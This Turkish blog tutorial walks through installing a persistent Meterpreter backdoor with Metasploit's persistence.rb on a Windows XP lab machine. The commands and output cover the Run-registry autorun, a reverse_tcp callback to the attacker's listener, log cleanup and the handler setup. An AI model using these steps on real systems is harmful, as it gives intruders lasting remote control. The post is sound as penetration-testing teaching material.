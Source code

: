 ```yaml
---
draft: false

title:  'MSF Meterpreter Kalıcı Backdoor'
date: '2017-06-15T13:57:00+03:00'
author: İbrahim Korucuoğlu ([@siberoloji](https://github.com/siberoloji))

description:  "Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de\_persistence.rb\_script kodunu kullanmaktır." 
 
url:  /tr/msf-meterpreter-kalici-backdoor/
 
featured_image: /images/metasploit.jpg
categories:
    - 'Metasploit Framework'
tags:
    - cybersecurity
    - 'metasploit framework'
---
```



## Persistence.rb



Hedef sistemde oturum açtıktan sonra kalıcılık sağlamak için Metasploit Framework içinde kullanabileceğiniz bir diğer yöntem de `persistence.rb` script kodunu kullanmaktır.



Bu yöntem sayesinde, hedef bilgisayar güncellense bile tekrar bağlanma imkanınız bulunmaktadır. Ayrıca, hedef sistemin tekrar başlatılması da bağlantı yapmayı etkilemeyecektir.



Bir önceki konuda, `metsvc` için yaptığımız uyarıyı burada da tekrarlayalım. `persistence.rb` arka kapısı, bağlantı için herhangi bir oturum bilgisi kullanmaz. Bu açıklığı keşfeden herkes bağlantı sağlayabilir.



Hedef sistemde meterpreter oturum açtıktan sonra `persistence.rb` script kodunu kullanmadan önce yardım bilgilerini görüntüleyelim ve bize hangi imkanları sağladığını görelim.


```bash
meterpreter **&gt;** run persistence -h

**[!]** Meterpreter scripts are deprecated. Try post/windows/manage/persistence_exe.
**[!]** Example: run post/windows/manage/persistence_exe OPTION**=**value **[**...]
Meterpreter Script **for **creating a persistent backdoor on a target host.

OPTIONS:

    -A   Automatically start a matching exploit/multi/handler to connect to the agent
    -L   Location **in **target host to write payload to, **if **none %TEMP% will be used.
    -P   Payload to use, default is windows/meterpreter/reverse_tcp.
    -S   Automatically start the agent on boot as a service **(**with SYSTEM privileges**)**
    -T   Alternate executable template to use
    -U   Automatically start the agent when the User logs on
    -X   Automatically start the agent when the system boots
    -h   This help menu
    -i   The interval **in **seconds between each connection attempt
    -p   The port on which the system running Metasploit is listening
    -r   The IP of the system running Metasploit listening **for **the connect back
```



Aşağıdaki `persistence -U -i 5 -p 443 -r 192.168.1.71` komutu hangi işlemleri yapıyor?



`-U`, bir kullanıcı oturum açtığında bizim bilgisayarımıza otomatik bağlantı yapılmasını sağlar.



`-i 5` Karşe taraftaki `persistence.rb` script kodu her 5 saniyede bir bize bağlanmaya çalışır.



`-p 443` bizim dinleme yapan bilgisayarımızın dinleme yaptığı port numarasıdır.



`-r 192.168.1.71` bizim dinleme yapan bilgisayarımızın IP numarasıdır.


```bash
meterpreter **&gt;** run persistence -U -i 5 -p 443 -r 192.168.1.71
**[*********]** Creating a persistent agent: LHOST**=**192.168.1.71 LPORT**=**443 **(**interval**=**5 onboot**=**true**)**
**[*********]** Persistent agent script is 613976 bytes long
**[*********]** Uploaded the persistent agent to C:\WINDOWS\TEMP\yyPSPPEn.vbs
**[*********]** Agent executed with PID 492
**[*********]** Installing into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*********]** Installed into autorun as HKCU\Software\Microsoft\Windows\CurrentVersion\Run\YeYHdlEDygViABr
**[*********]** For cleanup use command: run multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
meterpreter **&gt;**
```



Verdiğimiz komut sonucunda başlatılan script, çıktılarda da görüleceği gibi işimiz tamamlandığında log temizleme işleminin nasıl yapılabileceğini de gösteriyor.


```bash
multi_console_command -rc /root/.msf4/logs/persistence/XEN-XP-SP2-BARE_20100821.2602/clean_up__20100821.2602.rc
```



Scriptin çalışıp çalışmadığını ve otomatik bağlantı yapıp yapmadığını, hedef bilgisayarı tekrar başlatarak anlayabiliriz. Hedef bilgisayarı yeniden başlatalım.


```bash
meterpreter **&gt;** reboot
Rebooting...
meterpreter **&gt;** exit

**[*********]** Meterpreter session 3 closed.  Reason: User exit
```



Dinleyici `exploit/multi/handler` modülünü tekrar başlatalım.


```bash
msf exploit**(**ms08_067_netapi**)** **&gt;** use exploit/multi/handler
msf exploit**(**handler**)** **&gt;** set PAYLOAD windows/meterpreter/reverse_tcp
PAYLOAD **=&gt;** windows/meterpreter/reverse_tcp
msf exploit**(**handler**)** **&gt;** set LHOST 192.168.1.71
LHOST **=&gt;** 192.168.1.71
msf exploit**(**handler**)** **&gt;** set LPORT 443
LPORT **=&gt;** 443
msf exploit**(**handler**)** **&gt;** exploit

**[*********]** Started reverse handler on 192.168.1.71:443
**[*********]** Starting the payload handler...
```



Hedef bilgisayar tekrar başladığında, oturum açılır açılmaz yerel bilgisayara bağlantı, aşağıda görüldüğü gibi tekrar sağlanacaktır.


```bash
**[*********]** Sending stage **(**748544 bytes**)** to 192.168.1.161
**[*********]** Meterpreter session 5 opened **(**192.168.1.71:443 -&gt; 192.168.1.161:1045**)** at 2010-08-21 12:31:42 -0600

meterpreter **&gt;** sysinfo
Computer: XEN-XP-SP2-BARE
OS      : Windows XP **(**Build 2600, Service Pack 2**)**.
Arch    : x86
Language: en_US
meterpreter **&gt;**```
